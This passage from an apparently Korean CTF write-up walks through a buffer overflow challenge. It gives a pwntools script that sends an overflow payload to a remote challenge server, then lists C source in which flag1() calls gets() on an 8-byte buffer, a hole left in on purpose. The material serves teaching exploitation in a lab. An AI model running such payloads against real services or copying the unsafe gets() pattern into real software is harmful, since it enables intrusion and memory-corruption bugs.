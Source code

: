 그래서 평소에 자주 접했던 `pwntools` 을 사용했다.



#### PayLoad

```py
from pwn import *
  
p = remote("168.188.123.207", 16164)
pr = p.recvuntil("Let's learn about it!\n")
print pr
sleep(1)
pr = p.recvuntil("Give me some bytes")
print pr
p.sendline("a"*16+"\x11\x22\x33\x44\x55\x66") #혹은 pwntools에서 지원하는 packing을 이용해도 좋다.
#p.sendline("a"*16 + p64(0x665544332211)) #little endian, 64비트 환경
pr = p.recvuntil("}")
print pr
```

![]({{site.baseurl}}/images/2018-12-09-JFS-bof_world/04.PNG)



phase_1을 클리어했다.

### phase_2
***

`flag1()` 을 bof를 통해 무사히 호출했으므로, `flag2()` 를 찾아보자.

`flag2()` 는 `flag1()` 과 이어져있다.



```c
void flag2() {
    char flag[100];
    puts("Wow! You find 2nd stage!!");
    puts("Now you can control PC");
    FILE *fp = fopen("flag2.txt", "r");
    fgets(flag, 0x100, fp);
    fclose(fp);
    printf("Here is 2nd Flag! : %s\n", flag);
}

void flag1() {
	char comment[8];
	char flag[0x100];
    puts("Okay, now you understand Buffer Overflow!");
    FILE *fp = fopen("flag1.txt", "r");
    fgets(flag, 0x100, fp);
    fclose(fp);
    printf("Here is Flag! : %s\n", flag);
	sleep(1);
	
	while(getchar()!='\n');
	printf("Leave a comment : ");
	gets(comment);
}
```
